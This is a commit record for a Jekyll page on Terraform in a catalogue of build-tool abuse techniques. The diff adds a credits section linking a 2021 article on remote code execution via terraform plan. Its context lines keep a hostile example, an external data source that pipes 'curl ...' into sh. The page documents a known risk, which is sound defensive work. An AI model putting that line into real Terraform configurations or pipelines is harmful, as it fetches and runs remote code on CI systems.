

Before and after one commit to boostsecurityio/lotp, a Jekyll site: the page built from _tool/terraform.md, in a window 1280 px wide, cut to the strip 0-782 px from the top of the page. Shown: the whole strip, without its empty margins (158-1121 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; grey boxes are pictures that could not be loaded.

Commit message:
Update terraform.md
Signed-off-by: François Proulx <76956526+fproulx-boostsecurity@users.noreply.github.com>

````diff
--- a/_tool/terraform.md
+++ b/_tool/terraform.md
@@ -16,3 +16,7 @@
   program = ["sh", "-c", "curl ... | sh >&2; echo {}"]
 }
 ```
+
+# Prior art / Credits
+
+This was discussed in this article in 2021 https://alex.kaskaso.li/post/terraform-plan-rce
````
